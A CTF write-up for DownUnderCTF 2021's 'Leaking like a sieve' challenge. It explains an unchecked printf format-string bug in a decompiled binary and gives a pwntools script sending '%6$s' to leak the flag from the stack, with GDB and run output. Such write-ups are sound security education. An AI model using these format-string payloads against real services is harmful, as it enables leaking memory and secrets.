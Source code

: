 # DownUnderCTF 2021

## Leaking like a sieve

> 100
> 
> This program I developed will greet you, but my friend said it is leaking data like a sieve, what did I forget to add?
> 
> Author: xXl33t_h@x0rXx
>
> `nc pwn-2021.duc.tf 31918`
>
> [`hellothere`](hellothere)

Tags: _pwn_ _x86-64_ _format-string_

## Summary

Basic _leak the flag from a pointer in the stack_.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Partial RELRO = GOT overwrite; No canary = Easy BOF.

None of this matters for this challenge.


### Decompile with Ghidra   

```c
void main(void)
{
  FILE *__stream;
  long in_FS_OFFSET;
  char local_58 [32];
  char local_38 [40];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  buffer_init();
  __stream = fopen("./flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts("The flag file isn\'t loading. Please contact an organiser if you are running this on the shell server.");
    exit(0);
  }
  fgets(local_38,0x20,__stream);
  do {
    puts("What is your name?");
    fgets(local_58,0x20,stdin);
    printf("\nHello there, ");
    printf(local_58);
    putchar(10);
  } while( true );
}
```

`printf(local_58);` is your vuln--no format string.

`*__stream` is a pointer to the flag and is also on the stack, and probably at parameter `6`.  If this does not make sense, then Google for _format string exploits_.  In short, x86_64 Linux ABI has parameters 0-5 in registers and the rest on the stack (in general).

Since we know the pointer is on the stack, you can simply just send `%x$s` where `x` is any number >= `6` until you get the flag, i.e. start at `6` (or `1` if you like) and increment.

`%x%s` is a legit `printf` format-string, e.g. you can try this in C if you like:

```
#include <stdio.h>

void main()
{
    printf("%1$s %1$s\n","blah");
}
```

This code will output `blah` twice (the format-string is parameter zero if you were wondering why counting started at one).

Now change the `1` to a `2` and see what happens?  Good chance it'll crash.  If you just get garbage consider yourself lucky.  So if scripting to find the flag, check for crashes or timeouts in your code.  Or just use GDB to find the correct parameter:

```
0x00007fffffffe300│+0x0000: 0x00007fffffffe330  →  "flag{flag}\n"	 ← $rsp
0x00007fffffffe308│+0x0008: 0x00005555555592a0  →  0x00000000fbad2488
0x00007fffffffe310│+0x0010: 0x0000000a68616c62 ("blah\n"?)	 ← $rdi
0x00007fffffffe318│+0x0018: 0x00007fffffffe347  →  0x005555555550b000
0x00007fffffffe320│+0x0020: 0x00007fffffffe346  →  0x5555555550b00000
0x00007fffffffe328│+0x0028: 0x00005555555552e5  →  <__libc_csu_init+69> add rbx, 0x1
0x00007fffffffe330│+0x0030: "flag{flag}\n"
```

Looks like the flag was also on stack, curtesy of `fgets(local_38,0x20,__stream);`, so one could have also just used the tired old `%x$p` loop to leak the flag (more work).


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./hellothere')

if args.REMOTE:
    p = remote('pwn-2021.duc.tf', 31918)
else:
    p = process(binary.path)

p.sendlineafter(b'name?\n',b'%6$s')
p.recvuntil(b'there, ')
flag = p.recvline().strip()
log.info('flag: ' + flag.decode())
```

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/downunderctf2021/hellothere/hellothere'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to pwn-2021.duc.tf on port 31918: Done
[*] flag: DUCTF{f0rm4t_5p3c1f13r_m3dsg!}
```